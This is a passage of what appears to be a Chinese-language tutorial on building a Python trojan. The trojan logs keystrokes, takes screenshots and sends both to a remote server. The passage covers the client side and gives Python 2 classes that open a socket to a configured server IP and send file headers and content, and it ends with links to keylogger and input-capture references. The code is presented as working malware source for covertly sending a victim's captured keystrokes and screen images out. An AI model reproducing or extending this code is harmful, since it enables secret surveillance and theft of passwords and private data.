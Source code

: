 ```python
    data_handle(client_data)
    conn.close()
sk.close()
```
接下来的我们讨论客户端的实现，客户端的编程的基本模型比服务端要简单一些。只有两个步骤：
+ 与服务器进行连接
+ 和服务器进行数据通讯

现在思考一下在这个木马程序中我们需要给服务器发送那些数据，很容易分析出我们需要传输<文件名，文件类型，文件的具体内容，结束标志>，为什么需要结束标志咧？因为客户端已经发送完数据了，需要通知服务器数据已经完成，可以断开连接了，这个时候客户端和服务器就能正常断开连接，将资源还给操作系统了。

现在我们开始思考如何实现客户端的功能，让我们再次梳理一下客户端的功能:
+ 建立与服务器的连接
+ 发送文件名和文件类型（简称消息头部）
+ 发送文件的具体内容
+ 发送结束标志

在本程序中我们除了发送键盘输入数据外还有屏幕截图，因为这两个功能是并行执行的，所以这两类数据的发送不能共用同一个服务器连接(否则键盘数据和图像数据混合在一起就没法区分了)。本程序维护了一个服务器连接的类, 
```python
class NetworkClient(object):
    def __init__(self, config):
        self.server_ip = config['IP']
        self.server_port = config['PORT']
        # 新建一个scoket对象
        self.sock = socket.socket()
        # 建立与服务器的连接
        self.sock.connect((self.server_ip, self.server_port))

    def send_data(self, data):
        # 发送数据到服务器
        ret = self.sock.sendall(data)
        assert ret != -1

    def destroy(self):
        # 断开与服务器的连接
        try:
            self.sock.close()
        except Exception as e:
            print e
```
将每一次的数据发送抽象成一次网络任务，发送消息头部就相当于执行了一次网络任务。
```python
class NetworkTaskManager(object):

    def __init__(self, server_instance, file_type, file_name):
        self.server_instance = server_instance
        self.file_type = file_type
        self.file_name = file_name
        # 发送消息头， 在这里是为了发送文件名和文件类型
        self.send_message_header()

    def send_message_header(self):
        # 发送消息头部
        header_message = {
            "file_name": self.file_name,
            "file_type": self.file_type
        }
        # 建立一个任务，然后发送相应的内容
        task = BasicNetworkTask(self.server_instance, json.dumps(header_message))
        task.run()

    def send_content(self, content):
        # 发送文件的正文
        task = BasicNetworkTask(self.server_instance, content)
```

[CHAR_NODE]: http://blog.jobbole.com/86531/
[x11]: https://github.com/amoffat/pykeylogger
[commands]: http://blog.csdn.net/dbanote/article/details/9414133
[devices_file]: http://tieba.baidu.com/p/1853607526
[example]: http://7xqdxb.com1.z0.glb.clouddn.com/tickets7.png
[device_info]: 设备信息截图
[evdev_doc]: http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices
[status_manager]: 状态管理截图
[decode_input]: 原始数据和解码后的截图
[multiprocess]: http://python.jobbole.com/82045/
[result]: /images/result.png